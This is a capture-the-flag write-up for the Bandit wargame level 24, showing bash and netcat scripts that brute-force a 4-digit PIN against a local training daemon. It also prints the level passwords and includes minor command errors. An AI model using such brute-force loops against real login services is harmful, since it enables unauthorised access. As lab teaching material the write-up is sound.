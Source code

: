 Bandit Level 24 → Level 25
==========================

Level Goal
----------

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.


Solution
========

According to the text we have to connect to localhost's port 30002 again and send the current level's password together with an unknown 4-digit pin code separated with a single space.
Sounds not that hard after we already learned how to use netcat and stuff in previous levels. The only thing I didn't know at the first attempt was how to create a string which represents a 4 digit number ranging from 0000 to 9999.
So I asked Google and found [an article on Stackoverflow](https://stackoverflow.com/questions/5099119/adding-a-zero-to-single-digit-variable) which helped me to write a small shell script which in turn generates the 4-digit pin code and sends it together with the current level's password to localhost port 30002. The first ```echo``` is just to display the current value of the pin code in order to get a feeling of how long the script might run:

```
bandit24@bandit:~$ cat script.sh
#!/bin/bash

for i in 000{1..9} 00{10..99} 0{100..999} {1000..9999} ; do
  echo "----> $i <----"
  echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" | nc localhost 30002
done
```

After waiting about 2 hours for the script to brute force the combination of the current level's password and the unknown pin code separated by a space, I wondered if my implementation was optimal... Each netcat connection to port 30002 took relatively long with a reasonable delay before the connection ended and the next connection has been created. Therefore after about 2 hours my script has only tested about the half of possible pin codes:

```
bandit24@bandit:~$ time ./script.sh
[...]
----> 4772 <----
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Exiting.
----> 4773 <----
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Exiting.
----> 4774 <----
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Exiting.
----> 4775 <----
^C

real	121m30.664s
user	0m0.412s
sys	0m1.984s
```

Since I'm not aware of any threading mechanism in BASH, I simply put a & at the end of the command line in order to send the process to the background instead of waiting for it to end. This leads to some kind of "threaded"/"parallel" execution. Furthermore I recognized that a very huge amount of output text has been written to stdout. Therefore I was neither able to scroll back to the very beginning when I started the script nor was I sure if I possibly missed the correct password/pin combination in the meantime. So I added a redirect to the command line as well in order to log netcat's output:

```
bandit24@bandit:~$ cat script.sh
#!/bin/bash

for i in 000{1..9} 00{10..99} 0{100..999} {1000..9999} ; do
  echo "----> $i <----"
  echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" | nc localhost 30002 &>> log &
done
```

The modified script just took about 7 minutes in order to test all possible 10000 combinations. WHAT AN IMPROVEMENT! 

```
bandit24@bandit:~$ time ./script.sh
[...]
----> 9995 <----
----> 9996 <----
----> 9997 <----
----> 9998 <----
----> 9999 <----

real    7m23.807s
user    0m0.876s
sys     0m3.760s
```

Since we now are confident that each and every combination has been tested and logged, we can look for the correct combination which gives us the password for the next level. Due to the fact that most of the output of netcat looked identical we try to filter it out and hope to get the password for the next level extracted:

```
$ sort result | uniq -u
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

Please notice
=============

When I re-ran the previous steps in order to write this document, I realized that it didn't work any longer. I assume that it's caused by the various forks I did with the ```&``` at the end of the command because I got dozens of the following error messages while the script was running:

```
bandit24@bandit:~$ ./script.sh > log
./script.sh: fork: retry: Resource temporarily unavailable
./script.sh: fork: retry: Resource temporarily unavailable
./script.sh: fork: retry: Resource temporarily unavailable
./script.sh: fork: retry: Resource temporarily unavailable
./script.sh: fork: retry: Resource temporarily unavailable
./script.sh: fork: retry: Resource temporarily unavailable
[...]
```

I solved this by adding a ```sleep 1``` in order to make sure that not too many processes are spawned at the same time.
This still speeds up the execution of the script but prevents the errors. So the final solution I recommend to use is the following script:

```
bandit24@bandit:~$ cat script.sh
#!/bin/bash

for i in 000{1..9} 00{10..99} 0{100..999} {1000..9999} ; do
  echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" | nc localhost 30002 &
  sleep 1
done
```

It gets executed by redirecting the output to a log file then:

```
time ./script.sh > log
```
After about 90 minutes you'll get the correct combination of "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5588" and the next level's password. Without sending the netcat sessions to the background using the ```&``` and ```sleep1``` the same script runs for about 140 minutes in order to get the same result! So it's still a big improvement.
Now let's double check if the found pin code is correct:

```
bandit24@bandit:~$   echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5588" | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```


Tip
---

If you want to see what the script does while it runs and want to see the progress, you might want to start a ```tmux``` session first and open three tmux panes. Then in the upper pane you start the script. In the middle pane you watch the log for wrong tries in order to count them:
```
watch -n1 'grep "Wrong" log | wc -l'
```
And in the lower tmux pane you watch the log for successful tries in order to inform about the fact that we have found the correct password/pin combination and can stop the script:
```
watch -n1 'grep "Wrong" log | wc -l'
```

The resulting tmux session would then look similar to this on:

```
bandit24@bandit:~$ time ./script.sh > log



──────────────────────────────────────────────────────────────────────────────────────────────────────────
Every 1.0s: grep "Wrong" log | wc -l                                              Sat Oct 28 08:02:07 2017

699

──────────────────────────────────────────────────────────────────────────────────────────────────────────
Every 1.0s: grep "Correct" log | wc -l                                            Sat Oct 28 08:02:07 2017

0

```

Alternatives to create a 4-digit pin code
-----------------------------------------

```
seq -f "%0004g" 0 9999
```
```
python -c 'print "%(num)04d" % {"num":99}'
```
